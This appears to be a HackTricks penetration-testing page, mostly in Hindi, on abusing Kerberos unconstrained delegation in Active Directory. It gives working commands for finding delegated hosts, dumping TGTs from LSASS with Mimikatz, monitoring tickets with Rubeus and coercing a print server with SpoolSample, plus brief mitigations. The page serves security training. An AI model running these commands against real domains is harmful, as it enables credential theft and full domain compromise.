 # Unconstrained Delegation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Unconstrained delegation

यह एक विशेषता है जिसे एक डोमेन प्रशासक डोमेन के अंदर किसी भी **कंप्यूटर** पर सेट कर सकता है। फिर, जब भी कोई **उपयोगकर्ता उस कंप्यूटर पर लॉगिन करता है**, उस उपयोगकर्ता का **TGT की एक प्रति** **DC द्वारा प्रदान किए गए TGS में भेजी जाएगी** **और LSASS में मेमोरी में सहेजी जाएगी**। इसलिए, यदि आपके पास मशीन पर प्रशासक विशेषाधिकार हैं, तो आप **टिकटों को डंप कर सकते हैं और किसी भी मशीन पर उपयोगकर्ताओं का अनुकरण कर सकते हैं**।

तो यदि एक डोमेन प्रशासक "अनकॉनस्ट्रेन्ड डेलीगेशन" विशेषता सक्रिय करके किसी कंप्यूटर पर लॉगिन करता है, और आपके पास उस मशीन के अंदर स्थानीय प्रशासक विशेषाधिकार हैं, तो आप टिकट को डंप कर सकते हैं और कहीं भी डोमेन प्रशासक का अनुकरण कर सकते हैं (डोमेन प्रिवेस्क)।

आप इस विशेषता के साथ **कंप्यूटर ऑब्जेक्ट्स को खोज सकते हैं** यह जांचकर कि [userAccountControl](https://msdn.microsoft.com/en-us/library/ms680832\(v=vs.85\).aspx) विशेषता में [ADS\_UF\_TRUSTED\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx) शामिल है या नहीं। आप इसे ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’ के LDAP फ़िल्टर के साथ कर सकते हैं, जो पॉवव्यू करता है:

<pre class="language-bash"><code class="lang-bash"># List unconstrained computers
## Powerview
Get-NetComputer -Unconstrained #DCs always appear but aren't useful for privesc
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Export tickets with Mimikatz
</strong>privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #Check every 10s for new TGTs</code></pre>

**Mimikatz** या **Rubeus** के साथ मेमोरी में प्रशासक (या पीड़ित उपयोगकर्ता) का टिकट लोड करें **[**पास द टिकट**](pass-the-ticket.md)** के लिए।\
अधिक जानकारी: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**अनकॉनस्ट्रेन्ड डेलीगेशन के बारे में अधिक जानकारी ired.team पर।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Force Authentication**

यदि एक हमलावर **"अनकॉनस्ट्रेन्ड डेलीगेशन" के लिए अनुमत कंप्यूटर को समझौता करने में सक्षम है**, तो वह **प्रिंट सर्वर** को **स्वचालित रूप से लॉगिन** करने के लिए **धोखा दे सकता है** जिससे **सर्वर की मेमोरी में एक TGT** सहेजा जाएगा।\
फिर, हमलावर **प्रिंट सर्वर कंप्यूटर खाते का अनुकरण करने के लिए पास द टिकट हमले** को अंजाम दे सकता है।

किसी भी मशीन के खिलाफ प्रिंट सर्वर को लॉगिन कराने के लिए आप [**SpoolSample**](https://github.com/leechristensen/SpoolSample) का उपयोग कर सकते हैं:
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
यदि TGT एक डोमेन कंट्रोलर से है, तो आप एक [**DCSync attack**](acl-persistence-abuse/#dcsync) कर सकते हैं और DC से सभी हैश प्राप्त कर सकते हैं।\
[**इस हमले के बारे में अधिक जानकारी ired.team पर।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**यहाँ प्रमाणीकरण को मजबूर करने के अन्य तरीके हैं:**

{% content-ref url="printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](printers-spooler-service-abuse.md)
{% endcontent-ref %}

### शमन

* DA/एडमिन लॉगिन को विशिष्ट सेवाओं तक सीमित करें
* विशेषाधिकार प्राप्त खातों के लिए "खाता संवेदनशील है और इसे प्रतिनिधित्व नहीं किया जा सकता" सेट करें।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
